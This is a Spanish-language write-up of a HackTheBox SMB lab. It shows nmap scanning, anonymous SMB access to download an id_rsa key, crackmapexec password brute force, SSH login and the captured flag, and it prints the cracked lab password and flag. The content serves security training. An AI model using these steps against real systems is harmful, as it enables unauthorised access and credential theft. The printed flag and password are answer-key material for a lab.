



# Laboratorio SMB 📟

Como primer punto tenemos que **enumerar** los puertos disponibles en la máquina objetivo

```bash
nmap -p- -sS -Pn -n <IP> -oN ports
```

**Output**

<p align="center">
    
</p>

---

Usaremos **`smbmap`** para listar posibles directorios que existan en este servicio

* `smbmap -H [IP]`

<p align="center">
    
</p>

* Podemos acceder al directorio **`GGJ`**

---

Accedemos a este directorio y descargamos el archivo que se aloja

* `smbclient \\\\[IP]\\GGJ -N`
    * **`-N`** Usamos una **NULL SESSION** ya que no contamos con credenciales.

<p align="center">
    
</p>

* Nos descargamos la **llave id_rsa** usando `get id_rsa`

---

Para hacer **fuerza bruta** al servicio **SMB** usaremos la lista que nos da `HackTheBox` y `crackmapexec`

* `crackmapexec smb -u "jason" -p passwords.txt --local-auth`
    * `--local-auth` Utilizamos **autenticación local** y no de **dominio**
```
SMB         10.129.2.165    445    ATTCSVC-LINUX    [+] ATTCSVC-LINUX\jason:34c8zuNBo91!@28Bszh
```

---

Accedemos al servicio `ssh` con la clave **id_rsa** obtenida anteriormente. (⚠ Tenemos que asignarle el permiso **600**), con el usuario `jason`

* `ssh jason@[IP] -i id_rsa`

Ahora leemos la **flag** 🏴

```
$ cat flag.txt
HTB{SMB_4TT4CKS_2349872359}
```